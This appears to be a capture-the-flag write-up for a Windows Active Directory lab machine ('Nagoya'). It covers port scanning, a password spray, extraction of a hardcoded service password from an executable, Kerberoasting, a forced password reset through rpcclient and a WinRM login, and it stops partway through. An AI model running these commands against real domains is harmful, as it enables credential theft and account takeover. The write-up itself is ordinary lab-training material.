Nmap scan

```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.158.21
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-28 15:28 IST
Nmap scan report for 192.168.158.21
Host is up (0.075s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49668/tcp open  unknown
49676/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49693/tcp open  unknown
49708/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.54 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 53,80,88,135,139,445,464,593,636,3268,3269,3389,5985,9389,49666,49668,49676,49786,49679,49693,49708 192.168.158.21
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-28 15:31 IST
Nmap scan report for 192.168.158.21
Host is up (0.13s latency).

PORT      STATE    SERVICE           VERSION
53/tcp    open     domain            Simple DNS Plus
80/tcp    open     http              Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Nagoya Industries - Nagoya
88/tcp    open     kerberos-sec      Microsoft Windows Kerberos (server time: 2026-03-28 10:01:43Z)
135/tcp   open     msrpc             Microsoft Windows RPC
139/tcp   open     netbios-ssn       Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds?
464/tcp   open     kpasswd5?
593/tcp   open     ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open     ldapssl?
3268/tcp  open     ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
3269/tcp  open     globalcatLDAPssl?
3389/tcp  open     ms-wbt-server     Microsoft Terminal Services
|_ssl-date: 2026-03-28T10:03:13+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=nagoya.nagoya-industries.com
| Not valid before: 2026-03-27T09:57:35
|_Not valid after:  2026-09-26T09:57:35
| rdp-ntlm-info: 
|   Target_Name: NAGOYA-IND
|   NetBIOS_Domain_Name: NAGOYA-IND
|   NetBIOS_Computer_Name: NAGOYA
|   DNS_Domain_Name: nagoya-industries.com
|   DNS_Computer_Name: nagoya.nagoya-industries.com
|   DNS_Tree_Name: nagoya-industries.com
|   Product_Version: 10.0.17763
|_  System_Time: 2026-03-28T10:02:34+00:00
5985/tcp  open     http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open     mc-nmf            .NET Message Framing
49666/tcp open     msrpc             Microsoft Windows RPC
49668/tcp open     msrpc             Microsoft Windows RPC
49676/tcp open     ncacn_http        Microsoft Windows RPC over HTTP 1.0
49679/tcp open     msrpc             Microsoft Windows RPC
49693/tcp open     msrpc             Microsoft Windows RPC
49708/tcp open     msrpc             Microsoft Windows RPC
49786/tcp filtered unknown
Service Info: Host: NAGOYA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-28T10:02:35
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.39 seconds
```

Alright, so the first couple of things that pop out are port 80, hosting the website, port 135 for rpc, and port 5985 for winrm. Let’s start with taking a look at the web server hosted on port 80. There wasn’t much on the main page, but the Team link at the top drew my attention.



First thing I did here was created a user list with a format of firstname.Lastname.



The second thing, was to create a password list to try out. If you look down at the bottom of the team page, you’ll see that the website was created in 2023, and without any other context to use, I created a password list of the seasons and months combined with 2023.





Now that we had a user and password list, it’s time to see if anyone used those credentials.

```sh
nxc smb 192.168.158.21 -u users.txt -p pass.txt --continue-on-success

OR 

nxc smb 192.168.158.21 -u users.txt -p pass.txt --continue-on-success | grep "+" #use grep "+"` to filter out valid credentials:
```

Luckily for us, we got two accounts that have bad password practice. Using Carig Carr’s credentials, let’s check smb and see if we can find anything.
`Craig.Carr : Spring2023
`Fiona.Clarke : Summer2023`



Since we now have some valid credentials, I moved on to enumerate the SMB shares.

```sh
smbmap -H 192.168.158.21 -u 'craig.carr' -p 'Spring2023'

OR

nxc smb 192.168.158.21 -u 'craig.carr' -p 'Spring2023'
```





Nothing in particular sticks out, so now let’s just check the shares to see if there’s anything interesting.

```sh
smbclient \\\\192.168.158.21\\NETLOGON -U 'craig.carr'
```



Through enumeration, we find an interesting executable, ResetPassword.exe. Using ghidra, let’s see if there’s any information that we can use.

### Why?

Because:

- Executables in SMB shares often contain **hardcoded credentials**
- Especially tools like **ResetPassword.exe**
- These are gold mines in AD labs
### What You’re Trying to Do

Convert `.exe` → readable code → extract:

- Strings (passwords, usernames, URLs)
- Logic (how password reset works)

### Requirement:

Make sure Java is installed:

`sudo apt install default-jdk -y`

### To download ghidra follow https://github.com/NationalSecurityAgency/ghidra/releases?utm_source=chatgpt.com
OR
`sudo apt install ghidra -y`
`ghidra`



- File -> New Project  
- File -> Import File ResetPassword.exe  
- Open Code-Browser  
- Drag the .exe file to Code-Browser  
- Analyze  
- Window -> Defined Strings



`svc_helpdesk : U299iYRmikYTHDbPbxPoYYfa2j4x4cdg`

Alright, now we have a service account and credential. Just to double back, and make sure there was nothing I missed, I’m going to run impacket-GetUserSPNs to see if there’s any other accounts I can grab.

### To install impacket.

#### Step 1: Install pipx

```
sudo apt update  
sudo apt install pipx -y  
pipx ensurepath
```

Restart terminal after this.
#### Step 2: Install Impacket (isolated)

```
pipx install impacket
```

#### Step 3: Verify Installation

`impacket-GetUserSPNs -h`

```sh
impacket-GetUserSPNs -dc-ip 192.168.158.21 nagoya-industries.com/craig.carr:Spring2023 -request
```

### Breakdown of Each Part


#### `impacket-GetUserSPNs`

Python tool from Impacket

#### Purpose:

- Enumerate users with SPNs
- Perform Kerberoasting

#### `-dc-ip 192.168.185.21`

Domain Controller IP

#### Why?

- Direct communication with DC
- Avoid DNS issues
- Faster and reliable

#### `nagoya-industries.com/user:pass`

Credentials

Format:

`domain/username:password`

### Example:

nagoya-industries.com/fiona.Clark:Summer2023

#### Why?

You need **valid domain creds** to:

- Query LDAP
- Request Kerberos tickets

#### `-request`

👉 This is the **important flag**

### 🎯 What it does:

- Actually requests TGS tickets
- Outputs crackable hashes

#### Without `-request`:

Only lists SPNs (no hashes)



We find two accounts and hashes, so now it’s time to save those as a file and use hashcat to crack it.



Alright, another service account’s credentials, now it’s time to see what we can access with these two accounts. Looking at the NMAP scan again, shows that port 1433 for MSSQL is closed. So let’s start with svc_helpdesk to see what we can find.

I figured being the helpdesk account, that it probably has permissions as a remote user, so I tried the credentials with rpcclient first.

```sh
rpcclient -U nagoya-industries.com/svc_helpdesk 192.168.158.21
```

### `rpcclient`

- A tool from the **Samba suite** (commonly used in Kali Linux).
- It allows you to **query Windows machines via RPC over SMB (port 445/139)**.
- Often used in **penetration testing / enumeration**.

### `-U nagoya-industries/svc_helpdesk`

This specifies the **username for authentication**.

Format:

`domain/username`

So:

- **Domain** → `nagoya-industries`
- **User** → `svc_helpdesk`

👉 When you run the command, it will prompt for a password unless provided inline.

###  `192.168.185.21`

- The **target machine IP address**
- Usually a **Domain Controller or Windows server**

`enumdomusers`


`enumdomgroups`



`queryuser Christopher.Lewis`
`queryusergroups 0x46c`



Using the helpdesk’s privileges, we go ahead and change Christopher.Lewis’s password.

`setuserinfo christopher.lewis 23 'Password123'`



After, let’s check the credentials and see if we can log in winrm.



Success. Once logged in, you can find the local.txt file at C:\local.txt.

```sh
evil-winrm -i 192.168.116.21 -u christopher.Lewis  -p Password123 
```



Looking around, we find that the only other users on the machine are Administrator and svc_mssql. We already have the password for svc_mssql, so I went that route first. I figured that it might be too easy to log right into the account in winrm, but I tried it anyway, and was right. Next, let’s check if there’s any services running on an internal network.




